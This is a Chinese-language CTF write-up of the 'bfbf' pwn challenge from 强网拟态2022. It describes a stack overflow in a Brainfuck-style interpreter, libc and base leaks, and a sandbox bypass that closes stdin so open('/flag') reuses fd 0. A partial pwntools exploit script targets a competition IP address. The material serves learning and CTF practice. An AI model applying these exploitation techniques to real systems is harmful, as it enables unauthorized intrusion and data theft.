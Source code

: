 ```yaml
---

title: 「PWN」【强网拟态2022】Writeup WP 复现

tags: ['CTF', 'Pwn', 'writeup', 'wp']

authors: [nova]

---
```




# 「PWN」【强网拟态2022】复现 WP

[附件仓库](https://github.com/Nova-Noir/NovaNo1r-pwn-challenges/tree/main/强网拟态2022/)

除了 `pwn` 分类外，这次比赛还有一个 `mimic` 分类也有题目，但是因为太简单了所以就不写 wp 了看看 exp 就好。



## bfbf

整个程序通过读入一些符号并对接下来输入的字符串进行一系列操作。

但是字符串数组只有 `520` 个字节的长度，而操作符却可以达到 `0xfff` 个字节，所以存在栈溢出。

值得注意的是 `[`和 `]` 实现了一个循环结构，虽然好像不用这个也够写（没测试）

> `word_4062` 即为图二的 `bracket_arr`

![sym_read](https://novanoir-aliyun-oss.oss-cn-hongkong.aliyuncs.com/img/image-20221108112206978.png)

![str_read](https://novanoir-aliyun-oss.oss-cn-hongkong.aliyuncs.com/img/image-20221108112740265.png)



同时，我们可以在栈上找到一些可以用的数据来泄露程序基址和 `libc`

![](https://novanoir-aliyun-oss.oss-cn-hongkong.aliyuncs.com/img/image-20221108113456187.png)

之后即可 `ROP` 。但是程序有沙箱，禁止了 `fd > 0` 的 `read` 操作以及 `execve` 获取 `shell`。此时我们可以通过关闭 `fd=0` 的 `stdin` 再进行 `open("/flag")` 来获取 `fd=0` 的文件描述符。

除此之外，正常 `orw` 即可

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

# sh = process(['./pwn'])
elf = ELF('./pwn')
libc = ELF('./libc.so.6')
sh = remote("172.51.65.235", 9999)

payload1 = b",[>,]"  # padding loop
payload1 += b">"*0x0F  # padding to proc
payload1 += b">."*0x6  # retrieve proc
payload1 += b">"*0x1A  # padding to libc
payload1 += b">."*0x6  # retrieve libc
payload1 += b"<"*0x25  # fallback to overwrite return addr
payload1 += b",>"*(29*0x08)  # orw!

sh.sendafter(b"BF_PARSER>>", payload1)
sh.send(b"A"*520)
# gdb.attach(sh, 'b getchar')
```